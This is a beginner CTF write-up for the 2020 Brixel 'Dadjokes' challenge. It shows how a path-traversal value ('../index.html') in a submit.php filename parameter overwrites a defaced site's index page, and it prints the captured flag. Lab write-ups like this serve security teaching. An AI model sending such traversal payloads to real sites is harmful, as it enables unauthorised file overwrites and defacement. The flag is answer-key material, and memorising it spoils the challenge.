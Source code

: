 # 2020 Brixel CTF

Week long beginner friendly ctf taking place December 2020

## Overview


## Internet 15: Dadjokes

**Challenge**
Darn! Some idiot scriptkiddy broke my favorite website full of dad jokes!

I can't seem to contact the owner to fix the site

Can you bring it back and remove the defaced page?

**Solution**
The link takes you to a site that has clearly been defaced. Looking at the source, there's a comment that says:
```html
<!-- Hey bozo! I left your original index file under index_backup.html so you can see how your site looked before I used my l33t skillz to deface it. -->
```
Navigating to /index_backup.html we find that we can submit a new dad joke, or read a dad joke.  Looking at the submit feature, it looks like it includes information about the joke that you are submitting in the URI.
```
http://timesink.be/dadjokes/jokes/submit.php?filename=test.txt&title=test&content=test
```
I was most interested in that filename parameter.  Changing that to test.php and then trying to submit gets a clue from the creator:
```
You're on the right track, but I'm not going to allow this in here, try that somewhere else!
```
So we can't create a php file and get code execution, but maybe this is how the attackers defaced the main page? I thought to try to change the filename to index.html
```
http://timesink.be/dadjokes/jokes/submit.php?filename=../index.html&title=test&content=test&submit=true
```
This results in a different hint from the creator:
```
You are definitely on the right track here... but what are you trying to accomplish?
```
Thinking back to the challenge, they wanted me to bring back the original dadjokes site. I thought that maybe I needed to include the source for the index_backup.html page. 
```
http://timesink.be/dadjokes/jokes/submit.php?filename=../index.html&title=test&content=%3Chtml%3E%3Ctitle%3EDadJokes,%20your%20source%20of%20lame%20dad%20jokes%3C/title%3E%3Cbody%3E%3Cdiv%20align=%22center%22%3E%3Ch1%3EDadJokes%3C/h1%3E%3Chr%3E%3Cimg%20src=%22images/banner.png%22%20alt=%22dadjokes%22%3E%3Cbr%3E%3Cbr%3E%3Ca%20href=%22jokes/read.php%22%3ERead%20dad%20jokes%3C/a%3E%3Cbr%3E%3Cbr%3E%3Ca%20href=%22jokes/submit.php%22%3Esubmit%20your%20own%20jokes%3C/a%3E%3C/div%3E%3C/html%3E&submit=true
```
That worked! We are given the flag after submitting that payload.

**Flag**
```
brixelCTF{lamejoke}
```

## Internet 15: Pathfinders #1
